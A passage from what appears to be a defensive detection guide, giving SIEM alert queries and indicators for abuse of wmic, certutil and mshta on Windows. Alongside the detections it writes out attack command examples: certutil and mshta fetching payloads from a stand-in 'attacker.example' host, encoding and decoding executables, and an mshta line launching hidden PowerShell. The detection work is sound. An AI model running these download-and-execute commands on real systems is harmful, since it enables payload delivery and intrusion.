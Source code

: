 #### SIEM Alert Pattern
```
index=sysmon OR index=wineventlog (EventCode=1 OR EventCode=4688)
(CommandLine="*\\wmic.exe*process call create*" OR CommandLine="*wmic /node:* process call create*" OR 
CommandLine="*wmic*process get Name,CommandLine*")
| stats count values(Host) as hosts values(User) as users values(ParentImage) as parents by CommandLine
```

---

### Certutil Detection

#### Attack Command Examples
```powershell
certutil -urlcache -split -f "http://attacker.example/payload.exe" C:\Users\Public\payload.exe

certutil -decode C:\Users\Public\encoded.b64 C:\Users\Public\decoded.exe

certutil -encode C:\Users\Public\decoded.exe C:\Users\Public\encoded.b64
```

#### Detection Indicators
- `-urlcache -split -f` flags for file download
- `-decode` operations on suspicious files
- `-encode` operations potentially obfuscating payloads
- Downloads to Public or Temp directories

#### SIEM Alert Pattern
```
index=sysmon OR index=wineventlog (EventCode=1 OR EventCode=4688 OR EventCode=4663)
(Image="*\\certutil.exe" OR CommandLine="*certutil*")
(CommandLine="* -urlcache * -f *" OR CommandLine="* -decode *" OR CommandLine="* -encode *")
| stats count values(Host) as hosts values(User) as users values(ParentImage) as parents by CommandLine
```

---

### Mshta Detection

#### Attack Command Examples
```powershell
mshta "http://attacker.example/payload.hta"

mshta "javascript:var s=new ActiveXObject('WScript.Shell');s.Run('powershell -NoP -NonI -W Hidden -Command "Start-Process calc.exe"');close();"

mshta "C:\Users\Public\malicious.hta"
```

#### Detection Indicators
- Remote HTA loading via HTTP/HTTPS
- Inline JavaScript execution
- ActiveX object instantiation for shell access
- Local HTA file execution
